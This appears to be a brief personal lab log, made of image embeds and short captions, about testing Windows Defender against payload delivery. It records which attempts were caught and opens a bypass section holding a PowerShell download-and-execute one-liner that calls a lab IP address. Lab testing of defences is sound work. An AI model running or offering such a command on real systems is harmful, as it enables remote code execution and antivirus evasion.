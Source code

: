
### Defender On - and making sure fail

![[Pasted image 20250903012845.png]]
disarmed AV
![[Pasted image 20250903012905.png]]
caught with scripted web delivery - which it should be caught
![[Pasted image 20250903012938.png]]
attempting to drop onto desktop - caught which is good
![[Pasted image 20250903013356.png]]

### Defender On - and trying to bypass
testing swripted web delivery
`iex(iwr http://192.168.127.134/a -useb)`